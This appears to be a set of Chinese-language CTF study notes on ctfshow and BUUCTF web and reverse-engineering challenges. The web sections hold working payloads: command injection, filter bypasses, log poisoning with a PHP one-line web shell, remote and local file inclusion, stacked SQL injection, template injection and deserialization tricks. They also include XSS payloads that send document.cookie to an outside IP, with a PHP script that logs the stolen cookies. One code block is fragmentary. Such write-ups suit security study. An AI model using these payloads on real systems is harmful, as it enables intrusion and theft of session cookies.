





## web应用安全与防护

1. 网页源码有flag
2. 修改User-Agent字段为ctf-show-brower，登录成功
3. 按照源码中的加密流程，进行多次base64解码
4. 拿到sslkey.log和target.pacp

sslkey.log通常是SSL/TLS密钥日志相关的文件，其中共享同一个Client Random(927b25b1310aae28630aa91441f9e85374d0cee5753f0f109e254a045b826179)

tls选择sslkey.log进行解密，追踪http流

5. 修改cookie的值为admin

6. php查找，过滤了空格等字符，使用system(ls);查找show_source(next(array_reverse(scandir(getcwd()))));或者使用`eval(base_bdecode(c3lzdGVtKCJ3aG9hbWkiKTs))`
7. 服务器开始端口监听，反弹shell连接
8. 发现执行ls命令，只用；加cat读取。过滤能使用；| / &&，使用`|grep flag|xargs tac`

​	xargs：前序命令输出作为参数传递	或者`| tac flag.php`

9. 不允许直接查找

```
1.使用php字符串位取反绕过
var_dump(urlencode(~'phpinfo'));
(~%8F%97%8F%96%91%99%90)();
# phpinfo();

~：取反绕过黑名单 unlencode：取ascii  var_dump：字符转换为不可打印的控制字符

2.
<?php
$system="system";
$command="tac flag.php";
echo '(~'.urlencode(~$system).')(~'.urlencode(~$command).');';
?>
```

10. 没有回显，暂时不会
11. 使用了nginx服务器，日志访问路径为`/var/log/nginx/access.log`，在User-Agent字段插入一句话木马为`<?php eval($_POST[1])?>`（因为User-Agent字段原样写入日志了），源码中应该是执行了include，post参数为`file=%2Fvar%2Flog%2Fnginx%2Faccess.log&1=system("cat flag.php");`

​	攻击链：污染日志->LFI包含日志->post真正的payload（被eval执行）

12. php伪协议读取源码，payload`php://filter/convert.base64-encode/resource=db.php`
13. 远程文件包含，使用自己的服务器上传1.php，发现过滤了php，于是上传名为1的文件成功。

​	`url/?path=myURL/1`，之后post：cmd=system("ls");实现RCE

14. 路径禁止/和./等开头，使用一个参数绕过`123/../../../../flag.txt`


## 元旦水友赛

**web1** 

session文件包含，把可控内容写入session文件，LFI把这个session文件include进来，解析内容。

源码：

```
<?php
                                                                            ?>',
    '1':'localhost/tmp/sess_ctfshow',
    '2':'system("cat /fl*.txt");'
}

# 触发php的文件上传流程
file = {
    'file': 'ctfshow'
}

# 告诉服务器phpSessionId为ctfshow
cookies = {
    'PHPSESSID': 'ctfshow'
}

response = requests.post(url=url,data=data,files=file,cookies=cookies)

print(response.text)
```


## web入门

**web1-17信息收集**

查看源代码方法：ctrl+u，或者url前加view-source

目录扫描结果：

```
www.zip	robots.txt	index.phps	.git	.svn(开源版本控制系统)	
index.php.swp(vim产生的临时交换文件)	 robots.txt  /system1103/login.php(典型后台登录页面)
tz.php(探针文件)  backup.sql(sql备份文件)
```

**web21-28爆破**

Authorization中有base64加密后的账号密码，爆破

题目给出md5的加密有相同的个数，之后脚本跑出后token上传

剩下的直接爆破

```
# burp爆破模式

# Sniper
使用一个载荷集，轮流对标记位置进行爆破

# Battering ram
使用一个载荷集，同时替换所有标记位置

# Pitchfork
多个载荷集对应，按顺序配对投放

# Clusterbomb
多个载荷集交叉组合，生成所有的排列
```

**web29-命令执行**

```
# 命令执行的典型代码
system($_GET['cmd']);
exec($_POST['cmd']);
passthru($c);
shell_exec($c);
```

```
# 正则匹配
url + ?c=system('tac fla?.php');

# 使用反引号，相当于执行shell
url + ?c=echo `tac fl''ag.php`;
url + ?c=echo `nl fl?g.php`;
url + ?c=`cp fl?g.php 1.txt`;

# 逃逸出一个1，1中没有过滤
url + ?c=eval($_GET[1]);&1=system('tac flag.php');

# 返回数组，当前元素，扫目录，倒序，取文件名
url + ?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

url + ?c=include $_GET[1];&1=php://filter/convert.base64-encode/resource=flag.php
url + ?c=require $_GET[1];&1=php://filter/convert.base64-encode/resource=flag.php
url + ?c=system('cat fl*');
```


**web78-文件包含**

```
# 典型的文件包含
include($_GET['file']);
require($_POST['page']);

# 本地文件包含
include('../../flag.php')

# 远程文件包含，条件为allow_url_include = On
include('http://attacker/shell.txt');

```

```
# 通过伪协议，把构造的php代码当作文件执行
# data://：伪协议
# text/plain：声明MIME类型
# <?= ... ?>：php端标签echo
# passthru：执行系统命令
?file=data://text/plain,<?=passthru('tac flag.php')?>
```


**web89-php特性**

```php+HTML
intval(value,base)
# 用于获取变量的整数值，可以传入字符串，浮点数，bool等
# 参数为数组时，直接返回1
# base为转换使用的进制，0x开头默认16进制，0开头默认8进制
    
preg_match(str1,str2)
# 执行正则表达式匹配，str2里是否有str1的内容，若有返回1，没有返回0
# 参数为数组时，直接返回0
    
strpos(str,findstr)
# 返回子串第一次出现的位置

highlight_file()
# 把file内容在浏览器高亮输出

file_put_conntent(filename,data)
# 把一个字符串写入文件中

    
# 正则：^开头，$结尾
#	i:忽略大小写
#	m:多行模式
```


**web254-反序列化**

254：阅读源码中要求username和password符合要求

构造`https://4a5b2949-da6a-4a31-abf0-9f9042f2898f.challenge.ctf.show/?username=xxxxxx&password=xxxxxx`

255：源码中有`$user = unserialize($_COOKIE['user']); `


**web316-xss**

在服务器中写a.php（`sudo chomd 777 .`赋予写权限）

```php
# 完成数据接收
<?php
error_reporting(E_ALL);
$cookie = $_GET['cookie'] ?? '';
$time = date('Y-m-d H:i:s');
$log = @fopen(__DIR__ . "/cookie.txt", "a");
if ($log === false) {
    echo "open failed";
    exit;
}
fwrite($log, $time . " : " . $cookie . PHP_EOL);
fclose($log);
?>
```

确认有xss后，连接

```
<script>location.href="http://47.122.93.79/a.php?cookie="+document.cookie</script>

# document.cookie获取非HttpOnly的cookie
# location.href强制浏览器跳转
```

生成cookie.txt，里面有flag

```


<body onload=location.href="http://47.122.93.79/a.php?cookie="+document.cookie></body>

<iframe onload=location.href="http://47.122.93.79/a.php?cookie="+document.cookie></iframe>

<svg onload=location.href="http://47.122.93.79/a.php?cookie="+document.cookie>

<input onfocus=location.href="http://47.122.93.79/a.php?cookie="+document.cookie>
```

过滤空格可以使用`%09 tab / /**/`


## BUUctf

### web

**[BJDCTF2020]Easy MD5**

源码中



需要一个字符串，被MD5后变成`; or 1`的形式，ffifdyop刚好是

进入下一步，发现一个弱类型比较


构造`?a[]=1&b[]=2`,进入下一步


需要MD5碰撞的值，或者MD5无法处理数组,构造`param1[]=111&param2[]=222`


**[MRCTF2020]你传你🐎呢**

文件对后缀进行了过滤，基本都过滤了

选择上传.htaccess配置文件，内容为

```
AddType application/x-httpd-php .jpg
```



使用蚁剑连接




**[强网杯 2019]随便注**

`1'; or 1=1 -- -`发现存在sql注入

但是`1'; union select 1,2; -- -`显示



只能使用堆叠注入

```
1'; show databases; -- -
1'; show tables; -- -

# tablename为纯数字，需要用``包裹
1'; show columns from `1919810931114514`; -- -

# 预处理的方式拼接select关键字
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker; -- -
```


**[GYCTF2020]Blacklist 1**

也是sql注入，同样是堆叠注入

```
1'; show databases; -- -
1'; show tables; -- -

1'; show columns from FlagHere; -- -
```

但是提示`return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);`，把常用的都过滤了

使用handler命令也能进行查询获取flag

```
# 		打开表		读取数据		关闭句柄
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;

# 读取使用：first , next , ABSOLUTE n（行号）
```


**[极客大挑战 2019]Http 1**

**Referer	**告诉服务端从哪里点击进来

**User-Agent	**告诉服务端客户端使用的操作系统及版本等信息

**X-Forwarded-For	**识别客户端最原始的IP地址的请求头字段

查看源码，发现Secret.php，发现要求从特定网址来，伪造Referer来源

需要更换浏览器，修改UA头为Syclover

限制访问文件的源地址，XFF参数改为localhost，得到flag


**[极客大挑战 2019]PHP1**

dirsearch扫到www.zip

其中的php代码提示：GET传参，使用select接收的数据进行反序列化，username=admin / password=100

wakeup会自动赋值，我们要跳过wakeup，执行destruct魔术方法

编写反序列化代码

```php
<?php
class Name{
    private $username='admin';
    private $password='100';
}

$select=new Name();
$res=serialize(@$select);
echo $res;

?>
```

输出结果

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}

# 改为
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

但是属性为2会调用__ wakeup()魔术方法，我们需要调用__destruct()魔术方法

把属性个数从2改为3，触发漏洞跳过wakeup，带%00的字段符合private属性的序列化规则


**[护网杯 2018]easy_tornado 1**

有三个文本文件，提示：flag在/fllllllllllllag文件中

发现md5计算：md5(cookie_secret+md5(filename))

名字提示为tornado框架的模板注入

修改哈希值，变为`/error?msg=error`，且存在模板注入

改为`/error?msg={{handler.settings}}`能够爆出cookie_secret

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '62af31cf-d477-493c-9504-143000fe32c3'}
```

filename为/fllllllllllllag，按照公式进行加密

访问`/file?filename=/fllllllllllllag&filehash=a852399797d806305dd135f2ec0f0538`出flag


**[RoarCTF 2019]Easy Java 1**

点击help，抓包发现help.docx，修改请求方法为post能下载这个文件，但是内容没什么用

尝试修改filename参数，多次../路径穿越，发现使用apache tomcat服务器

因此尝试读取WEB-INF/web/xml查看是否存在信息



Java中包名对应目录结构，因此读取`WEB-INF/classes/com/wm/ctf/FlagController.class`文件出flag


**[ZJCTF 2019]NiZhuanSiWei**

解读源码

```
// text参数必须满足file_get_contents($text) === "welcome to the zjctf"
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))

// 第二个限制：file参数中不能包含"flag"字符串，否则退出
if(preg_match("/flag/",$file))

// 反序列化password参数
$password = unserialize($password);
```

`file_get_contents()`不仅能读文件，还支持**PHP 伪协议**，所以用伪协议直接构造内容

构造得到源码

```
?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

反序列化这个类

```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

得到payload

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```


**[HCTF 2018]WarmUp**

查看源码，提示`source.php`

```php
$_page = mb_substr(
     $_page,
     0,
     mb_strpos($_page . '?', '?')
);
// 再次检查是否在白名单中
if (in_array($_page, $whitelist)) {
     return true;             // 在白名单里就通过
}
```

截取?的内容看在白名单中就通过，之后就去读取文件内容


**[ACTF2020 新生赛]Include 1**

使用php协议读取文件

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```


**[ACTF2020 新生赛]Exec**

能够执行ping命令，输入框的ip后加；后执行命令

```
127.0.0.1; ls /
```


### Reverse

**reverse1**

```
  for ( j = 0; ; ++j )
  {
    v10 = j;
    if ( j > j_strlen(Str2) )
      break;
    if ( Str2[j] == 111 )
      Str2[j] = 48;
  }
```

把 o 换成了 0 ，找到str2为hello_world，替换即可


**新年快乐1**

放入PEiD里，显示`UPX 0.89.6 - 1.02 / 1.05 - 2.90 -> Markus & Laszlo [Overlay]`，加壳

脱壳：`upx.exe -d 新年快乐.exe -o after.exe`

之后用IDA打开就有flag


**xor1**

使用exeinfo打开，显示`NOT Win EXE - (.) - Mac OS X Mach-O 64bit Intel executable - CPU/Sub : X86_64/LIB64 i386_ALL - demand paged executable`

使用IDA打开，核心逻辑：`if ( !strncmp(__b, global, 0x21u) ) `

追踪global，选中内容，Export data导出为C风格的数组后导出

按照源代码格式写脚本后运行

```
flag=""
data=[ 102,10,107,12,119,38,79,46,64,17,120,13,90,59,85,17,112,25,70,31,118,34,77,35,68,14,103,6,104,15,71,50,79,0]
for i in range(1,len(data)):
    flag+=chr(data[i]^data[i-1])  
print(chr(data[0])+flag)   
```


**reverse3**

无壳，放入IDA中，核心逻辑为`  if ( !strncmp(Destination, Str2, v5) )`

找到str2为：`e3nifIH9b_C@n@dH`

变换逻辑为：`for ( j = 0; j < v11; ++j )	 Destination[j] += j;`

编写exp

```
import base64

a='e3nifIH9b_C@n@dH'
b=''
for i in range(len(a)):
    value=ord(a[i])-i
    b+=chr(value)
# print(b)
print(base64.b64decode(b).decode('utf-8'))
```


**helloworld1**

是apk安卓包，使用apktook反编译

```
java -jar apktool_3.0.1.jar d -f test.apk
```

找到MainActivity.smali文件，里面有flag


**不一样的flag**

使用ida打开，是迷宫题，5*5的迷宫，能够走0的地方，从左上走到右下就通关


**SimpleRev**

本题涉及到大小端存储问题

- 小端存储（x64默认）

比如`0x534C43444E`，在内存里实际内容为：`4E 44 43 4C 53`

所以，源码中` *(_QWORD *)src = 0x534C43444ELL;`，经过小端转换+ascii变换后：`NDCLS`

因此key=adsfkndcls

又有：` v9[0] = 0x776F646168LL;`，小端反转+ascii变换后：`68 61 64 6F 77`

`  text = (char *)join(key3, v9);`，而key3为kills，text=killshadow

编写脚本

```
text="killshadow"
key="adsfkndcls"
flag=""

for i in range(0,len(text)):
    for j in range(65,91):
        if ord(text[i])==(j-39-ord(key[i])+97)%26+97:
            flag+=chr(j)
print(flag)
```


**[GXYCTF2019]luck_guy**

使用ida打开，提示flag有f1和f2拼接，f2由s得来

f1=GXY{do_not_	

s = 0x7F666F6067756369LL;

编写脚本

```
for i in range(8):
    if i%2==1:
        flag+=chr(f2[i]-2)
    else:
        flag+=chr(f2[i]-1)
```


**Java逆向解密**

class文件使用jadx打开

源码中的核心逻辑为：`int result = (c + '@') ^ 32;`

意思是字符转ascii码后加上‘@’的ascii码，之后进行异或

解密逻辑：

```
for i in KEY:
    flag+=chr((i^32)-ord('@'))
```


**[BJDCTF2020]JustRE**

这道题涉及到windowsAPI的使用

**句柄**：windows系统用来表示资源的整数编号，用于程序和系统沟通

所有的句柄，都以H开头（Handle），而且一般只传api，不进行操作

shift+F12查看字符串，找到字符串`BJD{%d%d2069a45792d233ac}`

跟进这个函数的调用函数，发现输出了拼接函数：

`sprintf(String, " BJD{%d%d2069a45792d233ac}", 19999, 0);`

拼接后得到flag

**x32debug方法**

我们使用调试的方法：使用x32dbg打开，右键-搜索-所有模块，搜索字符串所在位置

找到后，观察周围的逻辑，在flag代码上方有比较逻辑，即eax=当前点击次数，4E1F=19999

如果不相等，就jne跳走


按空格，修改汇编指令为nop，注意补全长度。

ctrl+p保存为一个新的exe，打开点击就能出flag


**刮开有奖**

找到关键逻辑，有很多字符串，应该是加密逻辑

编写脚本进行解密

```
# 1. 原始数组（从反编译代码中提取的11个数字）
original_arr = [90, 74, 83, 69, 67, 97, 78, 72, 51, 110, 103]

# 2. 快速排序（和sub_4010F0逻辑一致：升序排序）
# 直接用Python内置sorted函数，效果完全相同
sorted_arr = sorted(original_arr)

# 3. 输出排序后的数字
print("排序后的数字数组：")
print(sorted_arr)

# 4. 数字转ASCII字符（逆向题最终答案）
result_str = ''.join([chr(num) for num in sorted_arr])
print("\n排序后转ASCII字符（最终答案）：")
print(result_str)
```

结果为`3CEHJNSZagn`


